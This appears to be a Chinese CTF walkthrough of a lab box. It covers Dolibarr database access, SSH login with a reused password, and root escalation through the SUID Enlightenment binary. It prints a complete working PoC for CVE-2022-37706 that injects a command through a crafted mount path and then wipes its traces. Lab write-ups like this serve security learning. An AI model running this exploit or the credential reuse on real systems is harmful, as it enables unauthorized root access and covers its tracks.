 登进数据库

```bash
mysql -u dolibarrowner -p
```

然后连上 dolibarr 数据库，查看表

```sql
use dolibarr;
show tables;
```

发现没啥东西。
`ls /home` 发现有个用户叫 larissa，用数据库的密码 ssh 进去，拿到第一个 flag。

然后开始提权
传个 `linpeas.sh` 过去开扫，发现 SUID 项里有 enlightenment，执行 `enlightenment -version` 可知版本为 0.23.1。

`searchsploit enlightenment` 看到有个提权漏洞，再 `searchsploit -p linux/local/51180.txt` 看具体信息

```yaml
  Exploit: Enlightenment v0.25.3 - Privilege escalation
      URL: https://www.exploit-db.com/exploits/51180
     Path: /usr/share/exploitdb/exploits/linux/local/51180.txt
    Codes: CVE-2022-37706
 Verified: False
File Type: ASCII text
```

`cat /usr/share/exploitdb/exploits/linux/local/51180.txt`，里面说这个洞能打 0.25.3 以下版本，也给出了 PoC 如下：

```bash
#!/usr/bin/bash
# Idea by MaherAzzouz
# Development by nu11secur1ty

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

# The actual problem
file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
        echo "[-] Couldn't find the vulnerable SUID file..."
        echo "[*] Enlightenment should be installed on your system."
        exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Welcome to the rabbit hole :)"

${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net

read -p "Press any key to clean the evedence..."
echo -e "Please wait... "

sleep 5
rm -rf /tmp/exploit
rm -rf /tmp/net
echo -e "Done; Everything is clear ;)"
```